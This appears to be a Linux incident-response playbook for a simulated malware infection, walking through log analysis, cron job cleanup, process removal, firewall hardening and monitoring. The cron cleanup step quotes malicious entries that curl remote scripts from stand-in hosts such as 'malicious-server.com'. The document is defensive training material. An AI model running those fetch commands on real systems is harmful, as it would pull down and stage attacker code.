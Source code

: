 # 🛡️ Cybersecurity Playbook: Incident Response for Fake Malware 🛡️

This playbook outlines steps to identify and mitigate a fake malware scenario, focusing on log analysis, network traffic monitoring, malware removal, system hardening, and ongoing verification.

## 1. Log Analysis

- **Command:** `sudo cat /var/log/auth.log | grep "Accepted"`
- **Purpose:** Filter authentication logs for accepted SSH connections to detect unauthorized access.

## 2. Network Traffic Analysis

- **Commands:**
    - `sudo netstat -tuln` (Show active internet connections)
    - `sudo cat /var/log/syslog | grep "curl"` (Filter system logs for 'curl' activity, indicating potential command downloads)
- **Purpose:** Identify unusual network traffic and potential attempts to fetch remote commands.

## 3. Malware Identification

- **Command:** `sudo ls -l /opt/vulnerable/`
- **Purpose:** List files in the known malware directory to identify malicious files.

## 4. Cron Jobs Inspection and Removal

- **Commands:**
    - `sudo crontab -l` (List current cron jobs)
    - `(sudo crontab -l | grep -v '/opt/vulnerable/malware.sh' | grep -v 'python3 /opt/vulnerable/exploit.py' | grep -v 'curl -s http://malicious-server.com/commands.sh -o /tmp/commands.sh' | grep -v 'curl -s https://another-malicious-server.com/update.sh -o /tmp/update.sh') | sudo crontab -` (Remove specific malicious cron job entries)
- **Purpose:** Identify and remove any scheduled tasks related to the fake malware.

## 5. Isolate the Threat

- **Commands:**
    - `sudo pkill -f /opt/vulnerable/malware.sh`
    - `sudo pkill -f /opt/vulnerable/exploit.py`
    - `sudo rm /opt/vulnerable/malware.sh`
    - `sudo rm /opt/vulnerable/exploit.py`
- **Purpose:** Terminate running malware processes and remove the malware files.

## 6. System Hardening

- **Commands:**
    - `sudo apt-get update`
    - `sudo apt-get upgrade -y`
    - `sudo ufw enable`
    - `sudo ufw allow ssh`
    - `sudo ufw deny from 192.168.0.1`
    - `sudo ufw deny from 192.168.0.2` 
- **Purpose:** Update the system, enable the firewall, allow SSH, and block known malicious IPs to enhance security.

## 7. Verification and Ongoing Monitoring

- **Commands:**
    - `sudo tail -f /var/log/auth.log`
    - `sudo tail -f /var/log/syslog`
- **Purpose:** Continuously monitor logs for any new suspicious activity to ensure the system remains secure.

**Important Note:** Adapt IP addresses and file paths to match your specific environment.
